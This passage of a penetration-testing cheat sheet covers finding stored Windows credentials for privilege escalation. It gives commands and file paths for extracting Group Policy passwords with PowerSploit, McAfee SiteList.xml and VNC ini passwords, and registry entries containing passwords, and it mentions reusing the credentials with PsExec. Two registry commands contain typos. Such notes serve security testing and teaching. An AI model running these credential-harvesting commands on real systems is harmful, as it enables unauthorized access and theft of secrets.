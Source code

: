   Since domain administrators can set up local administrators accounts through the Group Policy this can lead to privilege escalation. These credentials can be used with the PsExec Metasploit module in order to successfully login to the workstation as SYSTEM.

- PowerSploit
  ```
  pws> Get-CachedGPPPassword //For locally stored GP Files
  pws> Get-GPPPassword //For GP Files stored in the DC
  ```

### McAfee
* Most Windows systems they are running McAfee as their endpoint protection. The password is stored encrypted in the SiteList.xml file:
```
%AllUsersProfile%Application Data\McAfee\Common Framework\SiteList.xml
```

### VNC Passwords
* Password for **VNC** are stored in a `.ini` file for some implementations of VNC which is easily decrypted (DES 56bit key)
- `vnc.ini` --> easily decrypted
- UltraVNC
  ```
  \Program Files\UltraVNC\ultravnc.ini
  Value: passwd or passwd2
  ```

Can also use `dir` to search for these:
  ```
  c:> dir c:\*vnc.ini /s /b
  c:> dir c:\*ultravnc.ini /s /b
  c:> dir c:\ /s /b | findstr /si *vnc.ini
  ```

See also:  
[Crack or Decrypt VNC Server Encrypted Password](https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/)  
[The DES encryption used by VNC servers](https://www.vidarholen.net/contents/junk/vnc.html)

### Other protocols with cleartext passwords
* Any **FTP** or **other remote access client**. Most cached credentials can be decrypted  
See for instance [Windows Password Recovery Tools ](http://www.nirsoft.net/password_recovery_tools.html)  


## Credentials in Registry

### Searching the registry

* Generally, to **search registry** for passwords:
  ```
  c:> req query HKLM /f password /t REG_SZ /s | clip
  c:> reg query KHCU /f password /t REG_SZ /s | clip
  ```
**clip** tool copies text into the clipboard, so if working on Citrix env and
you run this text is in clipboard and can be pasted locally
